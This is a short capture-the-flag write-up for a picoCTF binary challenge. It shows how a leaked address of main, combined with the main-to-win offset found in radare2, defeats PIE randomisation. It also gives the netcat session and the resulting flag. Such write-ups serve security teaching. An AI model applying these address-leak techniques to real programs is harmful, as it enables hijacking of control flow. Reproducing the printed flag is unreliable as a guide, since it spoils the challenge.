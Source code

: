 # Description

Can you try to get the flag? Beware we have PIE!Connect to the program with netcat:

```sh
$ nc rescued-float.picoctf.net 52731
```

The program's source code can be downloaded [here](https://challenge-files.picoctf.net/c_rescued_float/fe4ce0914c5cf0111ebaf652993fb92a44ea9a7d1529b1bcd8d58827c17ca43b/vuln.c). The binary can be downloaded [here](https://challenge-files.picoctf.net/c_rescued_float/fe4ce0914c5cf0111ebaf652993fb92a44ea9a7d1529b1bcd8d58827c17ca43b/vuln).

# Solution

Based on the source code, this is a simple one. First thing we notice is that they are leaking the address of main.

```c
 printf("Address of main: %p\n", &main);
```

Since the binary has PIC enabled we can't just give it a hardcoded address, we need to calculate the offset between the main and win functions, we can easily do that in radare using the function symbols (names).

```
[0x0000133d]> afl~main
0x0000133d    3    204 main
[0x0000133d]> afl~win
0x000012a7    6    150 sym.win
[0x0000133d]> ? main-sym.win
int32   150
uint32  150
hex     0x96
```

In this case the offset is -0x96, we can do this by hand no need to script things, yet!

```
nc rescued-float.picoctf.net 52731
Address of main: 0x5fc8eacac33d
Enter the address to jump to, ex => 0x12345: 0x5fc8eacac2a7
Your input: 5fc8eacac2a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3}
```
